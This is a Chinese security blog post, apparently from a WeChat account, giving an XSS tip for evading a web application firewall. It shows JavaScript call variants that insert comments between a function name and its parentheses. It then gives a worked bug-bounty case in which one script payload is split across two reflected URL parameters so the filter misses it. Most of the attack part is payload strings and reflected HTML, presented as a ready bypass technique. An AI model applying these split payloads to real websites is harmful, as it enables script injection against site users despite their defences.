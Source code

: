 > **原文链接**: https://mp.weixin.qq.com/s?__biz=Mzg3NzU1NzIyMg==&mid=2247485097&idx=1&sn=8fe2a206087e4cd0d32cb94a4905630e

#  【XSS Tips】分割构造Payload绕过Waf  
原创 z1  Z1sec   2025-07-11 06:50  
  
   
  
> **免责声明：**  
  
由于传播、利用本公众号Z1sec所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，公众号及作者不为此承担任何责任，一旦造成后果请自行承担！如有侵权烦请告知，我们会立即删除并致歉。谢谢！  
  
# 分割绕过Waf  
  
众所周知，
```
alert(111)
```

  
可以弹窗  
  
![](https://mmbiz.qpic.cn/mmbiz_png/bnXduaibt5TFr5Wd5Lk6LSzDibJuZZCibWt6xERqM0BuzRj9OE5qUslFwa9eiaVE6v2c6EpBCmgUBwMGv5ia8iaNQWibw/640?wx_fmt=png&from=appmsg "")  
  
同样的道理，这样也可以  

```
alert`111`
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/bnXduaibt5TFr5Wd5Lk6LSzDibJuZZCibWtiaegPSiaS4SmxJy447vsRLuBAlu1s5mv4UMfQvLQKibJmDYe7NHJ1iagIg/640?wx_fmt=png&from=appmsg "")  
  
这样也行：  

```
(alert)(1)
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/bnXduaibt5TFr5Wd5Lk6LSzDibJuZZCibWt1902vIPVIhYe3rxHvicTuzRGjJboCJm5xM4auva99ibzDZaVHkVr0Y5g/640?wx_fmt=png&from=appmsg "")  
  
这样也可以：  

```
(alert)/*aaaaaaasasas*/(1)
alert/*aaaaaaasasas*/(1)
alert/*aaaaaaasasas*/`1`
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/bnXduaibt5TFr5Wd5Lk6LSzDibJuZZCibWticWWFYsLuZMtzZwmeMQ68DtM73jjcApofXc5JwHRRfKeozUcMuWbwBQ/640?wx_fmt=png&from=appmsg "")  
  
那么在现实情况中，我们可以用这种特性构造payload，将alert和后面的括号分开，以此绕过waf。  
  
给各位爷来个案例：  
  
一个SRC，链接中有两个参数，两个参数都在前端返回，并且可以插入html代码。  

```
http://www.xxx.com/ca/login?error=111&url=222
```

  
返回：  

```
...
<p>
111
</p>

<input type=&#34;hidden&#34; name=&#34;url&#34; value=&#34;222&#34;>
...
```

  
如果单独在error或者url参数上进行xss测试则无法绕过waf，但如果利用前文中的注释的方式将payload分为2块，然后执行，即可绕过waf：  

```
http://www.xxx.com/ca/login?error=111<script>alert/*&url=222*/(11)</script>
```

  
返回：  

```
...
<p>
111<script>alert/*
</p>

<input type=&#34;hidden&#34; name=&#34;url&#34; value=&#34;222*/(11)</script>&#34;>
...
```

  
这样则可以做到bypass绕过waf：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/bnXduaibt5TFr5Wd5Lk6LSzDibJuZZCibWtMiaT4aM9swJTMvicGJ3lOObOA1khgLOPOAsLMdFc2tQFBzOjTZMiamXSw/640?wx_fmt=png&from=appmsg "")  
  
  
   
  
